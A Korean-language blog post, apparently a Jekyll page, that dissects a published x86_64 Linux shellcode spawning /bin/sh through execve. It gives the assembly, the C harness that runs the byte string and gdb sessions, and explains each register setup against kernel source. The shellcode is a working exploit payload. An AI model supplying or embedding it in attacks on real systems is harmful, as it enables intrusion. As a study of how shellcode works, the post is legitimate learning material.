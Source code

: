 ```yaml
---
layout: post
title: "Linux x86_64 shellcode"
date: 2014-11-08 15:49:47 +0900
comments: true
categories: 
---
```


[Linux x86_64 shellcode](http://www.exploit-db.com/exploits/13691)

    section .text
        global _start
    _start:
        xor rdx,rdx
        mov qword rbx, '//bin/sh'
        shr rbx,0x8
        push rbx
        mov rdi,rsp
        xor rax,rax
        push rax
        push rdi
        mov rsi,rsp
        mov al,0x3b
        syscall

    int main(void)
    {
        //void (*p)();
        char *shellcode = ""
            "\x48\x31\xd2"
            "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"
            "\x48\xc1\xeb\x08"
            "\x53"
            "\x48\x89\xe7"  /* mov rdi,rsp */
            "\x48\x31\xc0"  /* xor rax,rax */
            "\x50"          /* push rax */
            "\x57"
            "\x48\x89\xe6"
            "\xb0\x3b"
            "\x0f\x05" ;

        //p = (void(*)()) shellcode;
        //(*p)();
        (*(void(*)())shellcode)()
    }

    $ gcc -g a.c
    $ gdb a.out
    (gdb) break 18
    Breakpoint 1 at 0x4004c4: file a.c, line 18.
    (gdb) run
    Starting program: /home/z/shell/a.out
    warning: no loadable section found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

    Breakpoint 1, main() at a.c:18
    18          (*(void(*)())shellcode)();
    (gdb) disassemble
    Dump of assembler code for function main:
       0x00000000004004b4 <+0>:     push   %rbp
       0x00000000004004b5 <+1>:     mov    %rsp,%rbp
       0x00000000004004b8 <+4>:     sub    $0x10,%rsp
       0x00000000004004bc <+8>:     movq   $0x4005d0,-0x8(%rbp)
    => 0x00000000004004c4 <+16>:    mov    -0x8(%rbp),%rdx
       0x00000000004004c8 <+20>:    mov    $0x0,%eax
       0x00000000004004cd <+25>:    callq  *%rdx
       0x00000000004004cf <+27>:    leaveq
       0x00000000004004d0 <+28>:    retq
    End of assembler dump.
    (gdb) x $rbp-0x8
    0x7fffffffe038: 0x004005d0

0x004005d0 부터 shellcode 가 들어있는 것을 확인

`movabs $0x68732f6e69622f2f,%rbx` 로 `//bin/sh` 을 `%rbx` 에 집어넣고, 
, 오른쪽으로 8 bit shift 해서,
`/bin/sh\x00` 을 만든다.

그리고, 이를 push 해서, 메모리에 

    00 NULL  <-- High
    68 'h'
    73 's'
    2f '/'
    6e 'n'
    69 'i'
    62 'b'
    2f '/'   <-- Low (%rsp)

를 만든다.

[Searchable Linux Syscall Table for x86 and x86_64](https://filippo.io/linux-syscall-table) 에서 64-bit 를 참조.

    Instruction: `syscall`
    Return value found in: `%rax`
    rax: system call number
    rdi: name 
    rsi: argv 
    rdx: envp
    
`0x3b` 는 execve 로 `linux/fs/exec.c` 에 구현되어있다. `syscall` 인터페이스는 `arch/x86_64/kernel/entry.S` 를 보면 된다.

    /*
     * execve(). This function needs to use IRET, not SYSRET, to set up all state properly.
     *
     * C extern interface:
     *       extern long execve(char *name, char **argv, char **envp)
     *
     * asm input arguments:
     *      rdi: name, rsi: argv, rdx: envp
     *
     * We want to fallback into:
     *      extern long sys_execve(char *name, char **argv, char **envp, struct pt_regs regs)
     *
     * do_sys_execve asm fallback arguments:
     *      rdi: name, rsi: argv, rdx: envp, fake frame on the stack
     */
    ENTRY(execve)
            FAKE_STACK_FRAME $0
            SAVE_ALL
            call sys_execve
            movq %rax, RAX(%rsp)
            RESTORE_REST
            testq %rax,%rax
            je int_ret_from_sys_call
            RESTORE_ARGS
            UNFAKE_STACK_FRAME
            ret

`arch/x86/kernel/process_64.c` 에 sys_execve() 가 있고, 이게 

    /*
     * sys_execve() executes a new program.
     */
    asmlinkage
    long sys_execve(const char __user *name, const char __user *const __user *argv, const char __user *const __user *envp)

`/fs/exec.c` 에 있는 `do_execve()` 를 호출한다. [fs/exec.c](http://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/exec.c)

    /*
     * linux/fs/exec.c
     */
    ...
    int do_execve(struct filename *filename,
            const char __user *const __user *__argv,
            const char __user *const __user *__envp)
    {
        struct user_arg_ptr argv = { .ptr.native = __argv };
        struct user_arg_ptr envp = { .ptr.native = __envp };
        return do_execve_common(filename, argv, envp);
    }

이제 다시 shellcode 를 disassemble 해본다.

    Instruction: `syscall`
    Return value found in: `%rax`
    rax: system call number
    rdi: name 
    rsi: argv 
    rdx: envp


`%rdx` 를 0 으로 만들었다.
    
    => 0x00000000004005d0:  xor    %rdx,%rdx


이 세 인스트럭션으로 메모리에 `/bin/sh\x00` 을 깔았다.

       0x00000000004005d3:  movabs $0x68732f6e69622f2f,%rbx
       0x00000000004005dd:  shr    $0x8,%rbx
       0x00000000004005e1:  push   %rbx

이제 이 메모리 주소를 `%rdi` 에 셋업한다. `name` 이 된다. `do_execve(name,...)`

       0x00000000004005e2:  mov    %rsp,%rdi

이제 `%rsi` 에 argv 를 셋업한다. 이해가 안가는 곳은 `push %rax` 이다. 항상 0 이 될 수 있을까? 이걸 수정해서 새버전을 만들었다. `xor %rax,%rax` 를 `push %rax` 전에 넣으면 된다.

       0x00000000004005e5:  push   %rax  ; argv[1] : NULL pointer
       0x00000000004005e6:  push   %rdi  ; argv[0] : pointer to '/bin/sh\0'
       0x00000000004005e7:  mov    %rsp,%rsi ; %rsi points argv[0]
    
이제 `%rdx (envp)` 는 NULL, `%rsi` 는 argv[0], `%rdi` 는 filename 이 셋업되었다.

`%ax` 에 `execve` 를 넣고 syscall 을 수행한다.

    (gdb) x 0x004005d0
    0x4005d0:       0x48d23148
    (gdb) stepi
    ...
    (gdb) stepi
    (gdb) disassemble $rdx,+30
    Dump of assembler code from 0x4005d0 to 0x4005ee:
    => 0x00000000004005d0:  xor    %rdx,%rdx
       0x00000000004005d3:  movabs $0x68732f6e69622f2f,%rbx
       0x00000000004005dd:  shr    $0x8,%rbx
       0x00000000004005e1:  push   %rbx
       0x00000000004005e2:  mov    %rsp,%rdi
       0x00000000004005e5:  push   %rax
       0x00000000004005e6:  push   %rdi
       0x00000000004005e7:  mov    %rsp,%rsi
       0x00000000004005ea:  mov    $0x3b,%al
       0x00000000004005ec:  syscall
    End of assembler dump.
    (gdb)
